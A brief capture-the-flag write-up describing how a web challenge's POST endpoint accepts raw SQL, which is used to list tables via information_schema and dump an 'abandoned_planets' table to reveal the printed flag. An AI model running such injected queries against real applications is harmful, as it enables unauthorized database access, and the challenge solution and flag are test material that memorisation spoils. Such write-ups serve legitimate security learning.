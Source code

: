 Write-up:

1. When analyzing the GET request to /, we find a POST request used to get the
planet information to display. This request uses a SQL query we can manipulate.

2. Altering the query to
`query=SELECT table_name FROM information_schema.tables WHERE table_schema=database();`
shows us there is another table:
    ```
    [{
        "TABLE_NAME": "abandoned_planets"
    }, {
        "TABLE_NAME": "planets"
    }]
    ```

3. `query=SELECT * FROM abandoned_planets;` shows us the flag: 
**flag{9c4dea2d8ae5681a75f8e670ac8ba999}**